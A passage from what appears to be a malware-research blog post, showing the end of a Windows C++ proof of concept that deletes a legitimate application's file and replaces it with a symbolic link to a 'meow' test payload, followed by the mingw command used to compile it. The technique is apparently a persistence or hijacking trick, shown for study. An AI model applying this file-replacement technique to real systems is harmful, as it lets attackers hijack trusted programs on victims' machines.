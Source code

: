 ```cpp
    return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
  GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

  // create the symbolic link
  if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }

  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

Note, that this PoC includes necessary headers for Windows API functions, file security, and SID (Security Identifier) manipulation, and have a function pointer to the `CreateSymbolicLinkA` function, which is used to create symbolic links (my mingw didn't want to compile without errors)    

### demo

Let's check everything in action.        

Compile our `meow-meow` "malware" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![malware](./images/128/2024-07-09_13-20.png){width="80%"}      
